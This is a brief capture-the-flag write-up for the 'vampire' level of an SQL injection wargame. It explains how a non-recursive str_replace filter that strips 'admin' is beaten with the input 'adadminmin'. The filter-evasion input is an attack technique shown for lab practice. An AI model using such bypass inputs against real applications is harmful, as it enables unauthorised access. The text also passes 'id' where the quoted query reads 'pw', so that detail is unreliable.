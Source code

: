 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/ac165bb9-b70d-4723-b941-ab315029c976)

We are provided with the SQL query:

```sql
SELECT id FROM prob_vampire WHERE id='{$_GET[pw]}'
```

This level uses the `str_replace()` function to replace `admin` with ` `. 


This function is not recursive which means we can provide the following URI:

```
id=adadminmin
```

When the application replaces `admin`, our URI becomes:

```
id=admin
```

The resultant query then becomes:

```sql
SELECT id FROM prob_vampire WHERE id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/f8d863b8-07ab-4d01-b24a-93901a8906c5)
